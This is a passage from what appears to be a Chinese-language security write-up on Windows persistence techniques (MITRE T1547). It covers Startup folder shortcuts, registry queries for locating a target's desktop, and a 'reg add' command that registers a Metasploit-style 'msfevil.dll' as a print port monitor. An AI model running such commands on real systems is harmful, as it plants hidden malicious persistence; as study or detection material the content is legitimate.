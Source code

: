 C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\  
C:\\Users\\axingg\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\  
检测这 2 个目录相关的 lnk 文件  
题外话，当我们无法定位到对面的桌面在哪儿，可以查看这里的注册表  
reg query "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders"  
reg query "HKEY\_CURRENT\_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders"  
[![](assets/1706145586-1d55debf5f055d3e27a95b0f04c816b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113543-a717521c-ba69-1.png)

# T1547.010 (Port Monitors)

reg add "hklm\\system\\currentcontrolset\\control\\print\\monitors\\T1547" /v "Driver" /d "C:\\Users\\axingg\\Downloads\\msfevil.dll" /t REG\_SZ /f  
[![](assets/1706145586-5a760d25a130f90b5c627d1c7dfc5c87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113636-c6f1a178-ba69-1.png)
